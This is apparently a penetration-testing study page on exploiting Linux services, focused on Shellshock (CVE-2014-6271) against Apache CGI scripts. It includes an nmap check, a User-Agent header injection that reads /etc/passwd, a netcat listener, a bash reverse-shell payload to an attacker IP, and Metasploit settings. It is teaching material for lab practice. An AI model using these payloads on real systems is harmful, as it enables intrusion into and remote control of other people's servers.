 # Linux Vulnerabilities

Linux is an OS which is often found running on servers. This means it is vital for us as penetration testers to understand linux and how to exploit it.

There are some common sevices which are found on linux systems - in this section we will be looking at what these are and how to exploit them.

The following table summarises the services we will look at:

| Service | Ports | Purpose |
| ---|---|---|
| Apache | 80, 443 | Web server which is used on 80% of global web servers |
| SSH | 22 | Secure remote access to control systems across unsecured networks |
| FTP | 21 | File sharing between a client and server and vice-versa |
| SAMBA | 445 | Linux implementation of SMB - allows windows machines to access linux shares and devices and vice-versa |

## Exploiting Apache via CVE-2014-6271 aka Shellshock

The shellshock family of vulnerabilities let attackers execute system commands remotely on a linux system which is vulnerable.

Two services are involved - *apache* and *bash* - which is why we are covering it here in the section relating to exploiting apache.

>[!NOTE]
>Shellshock is hardly ever seen anymore - it was so important it is worthwhile knowing about

### Context

Apache web servers which have been set up to run Common Gateway Interface scripts or .sh scripts could be vulnerable to shellshock.

>[!NOTE]
>CGI scripts are used by Apache to execute commands on the Linux system and show the output to the client

We can develop our own CGI scripts to perform commands on web-servers.

Shellshock takes advantage of this feature of apache along with a vulnerability in older versions of bash which execute commands after the series of characters `() {:;}`

### Exploitation

We need to find a way to communicate with the vulnerable version of bash - this is where CGI scripts come into play. If we can find CGI scripts on the targeted server, we can utilise them to send to bash the series of characters followed by the command we would like to have executed on the remote system.

When we make an html request using a CGI script, the web server will start a new process and execute the script with bash.

We therefore want to keep an eye open for .cgi scripts being used by web applications. We can look in source code to help with this - we might find a GET request is being made to a .cgi script.

We need to also make sure that the server is vulnerable to shellshock. To do this, we can run an nmap script:

```bash
sudo nmap -sV 192.168.56.101 --script=http.shellshock --script-args "http-shellshock.uri=/vulnscript.cgi"
```

>[!NOTE]
>The path to the CGI script is included as the value passed to the `http-shellshock.uri` argument

#### Manual Method

To exploit a shellshock vulnerability manually once we have found one and a .cgi script to use, we can use a proxy server such as burpsuite or zap to intercept a GET request to the CGI script.

The easiest and best place to inject the sequence of characters along with a command which we would like to have executed on the target web-server is in the `User-Agent` http header like so:

```bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

If we get success with a command such as `id` or `cat /etc/passwd` we can try different commands to get a reverse shell.

We can start a netcat listener on our attacking machine:

```bash
sudo nc -nlvp 4444
```

We can then try different ways to get a bash reverse shell. One way is shown below:

```bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.168.56.108/4444 0>&1'
```

>[!NOTE]
>If the above injection does not work, it is worth URL encoding it and / or trying a different command for the actual reverse shell

#### Automated Exploitation

We can automate the exploitation of a shellshock vulnerability using the msfconsole module `exploit/multi/http/apache_mod_cgi_bash_env_exec`

We will need to set `RHOSTS` and `TARGETURI` - in the example we have been using so far, this would look as follows:

```bash
set RHOSTS 192.168.56.101
set TARGETURI /vulnscript.cgi
run
```

This will (hopefully) give us a meterpreter session on the target system.

